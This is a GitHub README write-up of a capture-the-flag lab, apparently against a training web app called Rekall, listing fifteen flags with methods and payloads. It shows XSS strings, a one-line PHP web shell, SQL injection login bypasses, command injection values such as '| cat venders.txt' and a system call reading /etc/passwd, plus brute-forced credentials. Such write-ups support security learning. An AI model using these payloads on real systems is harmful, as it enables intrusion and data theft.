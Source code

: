 # Project-2-Ctfd

CTF Challenge Write-up Document

Flag 1:
Method: Cross-site scripting (XSS)
Payload: <script>alert("")</script>
![Flag 1](images/flag1.png)

Flag 2:
Method: XSS with malformed script tags
Payload: <SCRIPscriptT>alert(")</SCRIPscriptT>
![Flag 2](images/flag2.png)


Flag 3:
Method: Cross-site scripting (XSS)
Payload: <script>alert("")</script>
![Flag 1](/home/kali/Desktop/CTF/flag3.png)


Flag 4:
Method: Intercepting HTTP requests and responses using Burp Suite
Action: Used Burp Suite on About Rekall page and then sent to response
![Flag 1](/home/kali/Desktop/CTF/flag4.png)

Flag 5:
Method: File upload vulnerability leading to remote code execution
Payload: <?php $command = $_GET['cmd']; echo system($command); ?>
![Flag 1](/home/kali/Desktop/CTF/flag5.png)

Flag 6:
Method: File upload vulnerability leading to remote code execution (Similar to Flag 5)
Payload: Similar PHP code used in Flag 5 to execute commands
![Flag 1](/home/kali/Desktop/CTF/flag6.png)

Flag 7:
Method: SQL Injection
Payload: login ' OR '1'='1' -- password ' OR '1'='1' --
![Flag 1](/home/kali/Desktop/CTF/flag7.png)

Flag 8:
Method: Admin login bypass
Action: Used admin username and password to login
![Flag 1](/home/kali/Desktop/CTF/flag8.png)

Flag 9:
Method: Information leakage through improperly secured robots.txt file
Action: Accessed /robots.txt to retrieve the flag
![Flag 1](/home/kali/Desktop/CTF/flag9.png)

Flag 10:
Method: Command injection via DNS Lookup
Payload: www.example.com | cat venders.txt
![Flag 1](/home/kali/Desktop/CTF/flag10.png)

Flag 11:
Method: Direct access to restricted files
Action: Accessed /networking.php directly to obtain the flag
![Flag 1](/home/kali/Desktop/CTF/flag11.png)

Flag 12:
Method: Brute force attack
Credentials Discovered: melina:melina
![Flag 1](/home/kali/Desktop/CTF/flag12.png)

Flag 13:
Method: Command Injection
Payload: ;system('cat /etc/passwd')
![Flag 1](/home/kali/Desktop/CTF/flag13.png)

Flag 14:
Method: Unauthorized access to admin data via URL manipulation
Action: Accessed /admin_legal_data.php with the 'admin' parameter set to a specific value
![Flag 1](/home/kali/Desktop/CTF/flag14.png)

Flag 15:
Method: Exploiting the Mail Server by injecting commands
Payload: www.example.com | ls -A; accessed /old_disclaimers directory after that
![Flag 1](/home/kali/Desktop/CTF/flag15.png)

